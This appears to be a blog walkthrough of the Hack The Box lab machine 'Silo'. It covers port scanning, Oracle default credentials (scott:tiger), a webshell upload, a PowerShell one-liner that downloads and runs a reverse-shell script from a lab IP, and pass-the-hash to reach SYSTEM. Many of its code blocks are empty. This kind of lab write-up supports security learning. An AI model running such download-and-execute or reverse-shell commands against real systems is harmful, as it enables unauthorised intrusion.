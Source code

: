 ```yaml
---
layout: post
title: Hackthebox Silo Walkthrough
categories: HackTheBox
---
```


![placeholder](https://inar1.github.io/public/images/2019-11-07/silo-badge.png)
# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
To learn a new technique/knowledge, solve all machines (As much as possible!!).<br>
This is a walkthrough of a box "Silo".<br>

# Solution
### 1. Initial Enumeration

TCP Port Scanning:
{% highlight shell %}
root@kali:~# nmap -p- 10.10.10.82 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:58 EET
Nmap scan report for 10.10.10.82
Host is up (0.047s latency).
Not shown: 65520 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: IIS Windows Server
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2m19s, deviation: 0s, median: 2m18s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-11-06T14:51:29
|_  start_date: 2019-11-06T14:00:27

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 3066.66 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}

{% endhighlight %}

### 2. Getting User

Sounds we have nothing interesting on port 80 HTTP.<br>
Then, try to take a look at Oracle TNS listener.<br>
At first, try to get SIDs.<br>
<em>The Oracle System ID (SID) is used to uniquely identify a particular database on a system. For this reason, one cannot have more than one database with the same SID on a computer system.</em>
{% highlight shell %}

{% endhighlight %}

Next, brute force the valid credentials.<br>
We can find following username/password.
{% highlight shell %}
scott:tiger
{% endhighlight %}
{% highlight shell %}

{% endhighlight %}

For the Oracle penetration testing, we can use a script "<a href="https://github.com/quentinhardy/odat">odat.py</a>".<br>
Next, try to check if we have a write permission.
{% highlight shell %}

{% endhighlight %}
{% highlight shell %}

{% endhighlight %}

Then, upload a aspx webshell which is installed on Kali linux by default.
{% highlight shell %}

{% endhighlight %}
![placeholder](https://inar1.github.io/public/images/2019-11-07/silo-badge.png)

To launch a netcat listener to receive a reverse shell.
{% highlight shell %}

{% endhighlight %}

For the reverse shell, we can use <a href="https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1">this Powershell script</a>.<br>
To use it, we have to run following command with the webshell.
{% highlight shell %}
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.15.48:8083/Invoke-PowerShellTcp.ps1')
{% endhighlight %}

Now we got a reverse shell.<br>
user.txt is in the directory "Directory: C:\users\Phineas\Desktop".
{% highlight shell %}

{% endhighlight %}


### 3. Getting Root

There is another file in the same directory which name is "Oracle issue.txt" with password.
{% highlight shell %}

{% endhighlight %}

Then, try to access to the dropbox.<br>
![placeholder](https://inar1.github.io/public/images/2019-11-07/silo-badge.png)

By unzip, we can get a file which contains memory dump.<br>
We can use "volatility" to do the investigation.
{% highlight shell %}

{% endhighlight %}

We found a some files should be confidential.<br>
To dump the hash, wehave to provide the needed addresses for SYSTEM and SAM.
{% highlight shell %}

{% endhighlight %}

Since we can use Pass the Hash technique for Windows,<br>
we can achieve a SYSTEM shell with following command.
{% highlight shell %}

{% endhighlight %}

As always, root.txt is in the directory "C:\Users\Administrator\Desktop".
{% highlight shell %}

{% endhighlight %}
